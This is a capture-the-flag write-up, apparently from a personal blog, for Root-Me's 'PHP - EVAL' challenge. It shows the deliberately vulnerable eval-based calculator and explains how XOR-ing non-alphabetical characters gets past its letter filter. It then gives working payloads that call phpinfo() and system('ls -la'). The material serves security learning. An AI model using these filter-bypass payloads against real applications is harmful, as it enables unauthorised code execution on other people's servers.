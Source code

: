 ```yaml
---
title: "PHP - EVAL Rootme"
date: 2024-04-17
categories: [CHALLENGES, PHP - EVAL]
tags: [CHALLENGES, CTF] 
---
```



Hello,  In this Writeup, we will Explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

Firstly, we will analyze the source code of the challenge.
```
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```
The PHP script first checks if a POST parameter named  `input`  is present. If the input lacks letters or backticks, it's evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, it warns of "Dangerous code."

After some Reasearch on google, I found a way to bypass this filter which is `bypass using Non alphabetical char encoding.` Let's Discuss and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run php code easily and faster. In php we can use XOR operator between characters not only numbers to produce another character. 

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

So, here's the idea of our attack, what if we can reproduce an alphabetical char from  `xoring two non alphabetical chars.`  How can we do that ? 

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you then XOR this result with one of the original numbers, you'll get the other original number. 

We can take a Demo form the following python test on python Interpreter. We can choose character like  `s`  that we want to produce it using XOR operator of two unkown character.

Steps of what we can do: 

1) Getting ASCII decimal of the letter  `s`  which is 115 using ord() function in python.

2) Selecting a random non-alphabetical-char like  `@`  and getting an ASCII decimal of this char which is 64.

3) XORING this two decimal numbers and convert the result into char using chr() in python.

4) Checking if the char is alphabetical char or not and the goal is to be non-alphabetical-char to bypass the filter.

5) Finally, xoring the random non-alphabetical-char and the number resulted from xor operation will give us the letter we need to need.

![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

we can now try this small payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

Nice, we can now automate this process using python, I write simple tool to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
we can we make a php to call this as php function?
in php, If we declare `$__` as variable ad store the generted string from the tool in it and call it as `$__();` it will be executed as php function we can use it as: 
```
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

we can use payload like this to run `system("ls -la")

```
$_1 = (","^"@").("("^"[");
$_2 = "-"; 
$_3 = (","^"@").("!"^"@"); 
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");  
$__($_1 . " " . $_2 . $_3);
```
